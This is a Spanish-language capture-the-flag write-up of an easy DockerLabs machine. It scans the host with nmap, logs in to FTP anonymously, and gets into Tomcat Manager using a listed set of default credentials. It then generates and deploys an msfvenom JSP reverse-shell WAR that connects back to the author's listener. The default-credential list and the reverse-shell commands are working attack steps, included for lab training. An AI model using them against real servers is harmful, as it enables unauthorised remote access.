






#Writeups #Easy #DockerLabs


Hacemos un escaner general:

```zsh
❯ sudo nmap -sS -p- -Pn --min-rate 5000 172.17.0.2
[sudo] contraseña para dached: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 17:55 CEST
Nmap scan report for 172.17.0.2
Host is up (0.0000060s latency).
Not shown: 65533 closed tcp ports (reset)
PORT     STATE SERVICE
21/tcp   open  ftp
8080/tcp open  http-proxy
MAC Address: 02:42:AC:11:00:02 (Unknown)

```

y ahora u escaner más profundo en los puertos 21 y 8080

```zsh
❯ sudo nmap -p21,8080 -sCV 172.17.0.2
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-05-25 17:57 CEST
Nmap scan report for 172.17.0.2
Host is up (0.000028s latency).

PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 3.0.5
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:172.17.0.1
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.5 - secure, fast, stable
|_End of status
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
8080/tcp open  http    Apache Tomcat 9.0.88
|_http-favicon: Apache Tomcat
|_http-open-proxy: Proxy might be redirecting requests
|_http-title: Apache Tomcat/9.0.88
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Unix

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.41 seconds

```

Vemos que en el ftp se permite el anonympous login, pero antes vamos a ver la web.

introduciendo la url: ```http://172.17.0.2:8080/ ``` nos aparece esta web.




vamos a entrar al ftp a ver que encontramos


```zsh
❯ ftp 172.17.0.2
Connected to 172.17.0.2.
220 (vsFTPd 3.0.5)
Name (172.17.0.2): anonymous
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering Extended Passive Mode (|||56530|)
150 Here comes the directory listing.
-rw-r--r--    1 0        0              74 Apr 19 07:32 tomcat.txt
226 Directory send OK.
ftp> get tomcat.txt
local: tomcat.txt remote: tomcat.txt
229 Entering Extended Passive Mode (|||33461|)
150 Opening BINARY mode data connection for tomcat.txt (74 bytes).
100% |**********************************************************************|    74        1.43 MiB/s    00:00 ETA
226 Transfer complete.
74 bytes received in 00:00 (333.02 KiB/s)
```

obtenemos el archivo tomcat.txt que contiene este mensaje:

```
Hello tomcat, can you configure the tomcat server? I lost the password...
```

Con esto vamos a probar entrar al login del tomcat en la web, vamos a usar el User: tomcat y la contraseña usaremos default contraseñas de tomcat como:

```
- admin:admin
    
- tomcat:tomcat
    
- admin:
    
- admin:s3cr3t
    
- tomcat:s3cr3t
    
- admin:tomcat
```

Estas credenciales por defecto las encontramos en [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat)

por lo que en la web nos vamos a Manager App y en el login las probamos:



y con las credenciales de **tomcat:s3cr3t** obtenemos acceso:



En tomcat podemos subir archivos .war, para esta maquina me he guiado con la pagina de [HackTricks](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat) así que haremos una reverse shell con msfvenom:

```bash
❯ msfvenom -p java/jsp_shell_reverse_tcp LHOST=192.168.1.217 LPORT=1234 -f war -o revshell.war
Payload size: 1098 bytes
Final size of war file: 1098 bytes
Saved as: revshell.war

```

y en tomcat lo subimos en el apartado de Archivo war a desplegar, en mi caso puse la url revshell:



Desplegamos y nos aparece un nuevo directorio:



ponemos net cat a la escucha:

```bash
❯ nc -lvnp 1234
listening on [any] 1234 ...

```

accedemos en mi caso al directorio /revshell y parece que obtenemos una consola con root:



 así que con esto ya tendríamos toda la maquina vulnerada.
 